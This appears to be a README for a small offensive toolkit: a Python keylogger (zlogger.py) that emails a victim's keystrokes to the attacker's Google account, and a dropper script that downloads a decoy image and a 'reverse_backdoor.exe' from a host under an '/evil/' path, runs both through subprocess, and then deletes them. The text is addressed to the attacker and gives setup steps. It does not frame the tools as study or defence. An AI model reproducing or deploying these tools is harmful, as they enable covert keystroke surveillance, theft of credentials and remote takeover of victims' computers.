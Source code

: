 A keylogger program is a program that relays information about the victim's keystrokes to the attacker.

usage :
ex) python zlogger.py

****Cautions for using this program***** 
In the zlogger.py code, you need to change the first line: keylogger_instance = keylogger.Keylogger(time,your id,your password).
time : Determines how often you want to receive reports. In this case, time is in seconds, so if it's 2 minutes, you would write 120.

your id: This is the attacker's google email id, which is used to log in because we record and report the results to the attacker's email.

your password: This is the attacker's GOOGLE email PASSWORD that is used to log in, as we will record and report the result to the attacker's email.


----------------------------------------------------------------------------------------------------------

A download_execute_and_report program is a program that causes legitimate and malicious files to be downloaded together.

usage :
ex) python download_execute_and_report.py

*********************Cautions when using the program**********************
When using this program, you need to specify the path of the normal file and the path where the malicious program is stored because you need to download it.
download("http://192.168.111.158/evil/car.jpg")
subprocess.Popen("car.jpg", shell=True)
--> download("Path to the healthy file")
download("http://192.168.111.158/evil/reverse_backdoor.exe")
subprocess.call("reverse_backdoor.exe", shell=True)
--> download("Path to malicious file")
os.remove("car.jpg")
os.remove("reverse_backdoor.exe")
--> name the file and program.
ex)
os.remove("legitimate programs (or files)")
os.remove("Malicious programs (or files)")
